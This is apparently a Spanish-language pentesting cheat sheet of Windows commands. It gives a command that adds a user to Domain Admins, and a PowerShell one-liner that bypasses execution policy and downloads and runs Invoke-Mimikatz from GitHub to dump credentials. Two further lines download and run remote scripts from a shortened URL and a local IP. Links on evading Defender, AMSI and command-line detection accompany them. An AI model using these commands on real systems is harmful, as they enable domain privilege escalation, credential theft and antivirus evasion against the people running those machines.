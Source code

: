 ## Añadir usuario a Dominio
~~~ powershell
net user username password /ADD /DOMAIN
net group "Domain Admins" username /ADD /DOMAIN
~~~ 

## Ejecutando un living off the land
+ Windows Defender lo detecta como actividad maliciosa

~~~powershell
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
~~~

iex ((New-Object System.Net.WebClient).DownloadString('https://git.io/JJ8R4'))

Invoke-Expression (New-Object Net.WebClient).DownloadString('http://192.168.100.59:3000/poc.ps1')


Más información
+ https://lolbas-project.github.io/
+ https://github.com/LOLBAS-Project/LOLBAS
+ https://www.elladodelmal.com/2020/09/windows-amsi-antimalware-scan-interface.html
+ https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/configure-network-connections-microsoft-defender-antivirus?view=o365-worldwide
+ https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/linux-exclusions?view=o365-worldwide
+ https://www.gb-advisors.com/es/mimikatz/#:~:text=Windows%20cuenta%20con%20la%20funcionalidad,la%20clave%20secreta%20para%20descifrarlas.

## Obteniendo datos del sistema

~~~cmd
REM REM = Comentario en CMD
REM Obtener información
systeminfo 
~~~

************************************************************************************************
# Artículos interesantes
+ https://www.wietzebeukema.nl/blog/bypassing-detections-with-command-line-obfuscation